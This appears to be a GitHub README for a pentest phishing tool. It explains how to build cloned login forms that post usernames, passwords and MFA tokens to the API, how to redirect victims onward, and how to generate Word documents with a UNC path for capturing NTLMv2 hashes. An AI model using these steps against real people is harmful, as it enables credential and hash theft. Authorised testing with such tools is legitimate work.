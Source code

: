 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


This is intended to be a "quick and dirty" solution when Phishing.  For better results, use Evilnginx or another solution.  This is for someone who wants to quickly clone a site, start collecting credentials within minutes, and be notified in real time when there's a catch!  Enjoy!

## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well so if you're running Responder or ntlmrelayx you can capture NTLMv2 hashes!


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (Configure DNS MASKED Forwarding Instead of an A Name Record for Best Results)



# To Use the API for Capturing Credentials : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	(OPTIONAL MFA FIELD)  `<INPUT NAME="token">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials


![Notification to Slack Channel](https://i.imgur.com/L8yYRMQ.png)

                  
            
![View Captured Credentials via Web](https://i.imgur.com/iLPU2pH.png)


# To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

3) Optionally set up Responder or ntlmrelayx

4) Customize your doc, email it off, and Wait for the Slack Alerts!  

Bonus points if you use your docs as honeypot bait! :)


![Payload Generation](https://i.imgur.com/nyrJEz7.png)

                  
            
![Downloading and Openinig Doc](https://i.imgur.com/yHt0AuD.png)

                  
            
![Phishing Doc Slack Alert](https://i.imgur.com/dQahnC5.png)

